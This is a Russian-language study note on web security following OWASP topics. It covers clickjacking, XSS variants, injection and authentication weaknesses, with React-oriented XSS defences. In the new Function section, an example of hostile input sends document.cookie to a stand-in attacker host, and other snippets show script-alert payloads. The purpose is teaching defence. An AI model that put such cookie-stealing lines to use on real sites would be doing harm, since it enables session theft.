 # OWASP

Организация \ консорциум по обеспечению безопасности

## Виды атак:

# ClickJacking / UI Redress Attack

Пользователя обманом заставляют кликнуть на видимый элемент интерфейса, который на самом деле скрывает другой, вредоносный элемент (например, невидимый iframe, загруженный поверх легитимной кнопки). 4 Таким образом, пользователь, думая, что нажимает на безобидную кнопку «Play», может неосознанно совершить действие на вредоносном сайте, например, поделиться конфиденциальной информацией или активировать веб-камеру.

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры
- DOM-based XSS: Уязвимость возникает из-за небезопасной обработки данных на стороне клиента с помощью JavaScript, когда данные из источника, контролируемого пользователем (например, location.hash или document.referrer), попадают в «приемник» (sink), который может выполнить код (например, eval() или innerHTML).

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.
Также возможны NoSQL-инъекции или Command-инъекции, если данные с frontend используются для формирования команд к другим системам.

### Защита от XSS

**1. Никогда не вставляй HTML напрямую**

не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.

```js
// Вставка HTML напрямую — уязвимо
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

---

**2. Экранирование пользовательского ввода**

В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```

---

**3. Content Security Policy (CSP)**
CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

---

**4. Избегай инлайновых обработчиков**

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```

---

**5. Валидация и фильтрация данных на клиенте.**

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

---

**6. Избегать eval, new Function.**

new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // уязвимо
run(); // злоумышленник получает куки
```

# Атаки на аутентификацию и авторизацию

- Слабые пароли: Использование легко подбираемых паролей, отсутствие требований к сложности.
- Небезопасное хранение токенов: Хранение JWT или других сессионных токенов в localStorage, что делает их уязвимыми для XSS.
- Отсутствие или слабая реализация MFA/2FA: Многофакторная аутентификация значительно повышает безопасность.
- Уязвимости типа «Сломанный контроль доступа» (Broken Access Control): Например, небезопасные прямые ссылки на объекты (IDOR), когда пользователь может получить доступ к чужим данным, просто изменив ID в URL, или возможность повышения привилегий.

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling

# Уязвимые библиотеки (vulnerable components)

Typesquotting - подделка оригинальных НПМ пакетов на вредоносные, путем написания похожих имен
